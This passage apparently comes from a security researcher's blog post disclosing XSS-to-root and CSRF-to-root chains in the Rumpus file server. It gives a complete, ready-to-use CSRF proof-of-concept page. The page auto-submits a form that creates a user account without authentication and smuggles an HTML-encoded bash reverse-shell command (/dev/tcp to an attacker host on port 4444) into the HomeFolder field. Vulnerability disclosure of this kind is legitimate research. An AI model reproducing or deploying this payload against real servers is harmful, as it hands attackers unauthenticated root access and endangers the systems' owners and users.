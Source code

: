 Response:

{% highlight html %}
HTTP/1.1 200 OK
Server: Rumpus
Date: Wed, 03 Feb 2021 17:13:03 GMT
Content-type: text/html; charset=UTF-8
Content-length: 98
Connection: close
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block

<html><body onLoad="parent.UploadFinished('Folder Created','','','Complete',true);"></body></html>
{% endhighlight %}

On a mouseover the command injection will be send to the server. When done by an administrator this will result in a root shell for the attacker.

![xss to root image](https://raw.githubusercontent.com/tvrbk/tvrbk.github.io/main/_posts/xss-to-root.png)

# CSRF to root
Another combination is to trick a user with access to user management to visit the following malicious page. Because a user account is needed to set the folder value to, a user is created beforehand named “rce”. No authentication is needed to perform this attack.

{% highlight html %}
<html>
  <body onload=document.getElementById("csrf").submit()>
  <img src="http://X.X.X.X/RAPR/TriggerServerFunction.html?CreateUserAccount;;rce;;verysecurepassword;;"/>
    <form id="csrf" action="http://X.X.X.X/RAPR/DefineUsersSet.html" method="POST">
      <input type="hidden" name="Username" value="rce" />
      <input type="hidden" name="HomeFolder" value="&apos;&#96;bash&gt;&amp;&#47;dev&#47;tcp&#47;Y&#46;Y&#46;Y&#46;Y&#47;4444&#32;0&gt;&amp;1&#96;" />
    </form>
  </body>
</html>
{% endhighlight %}
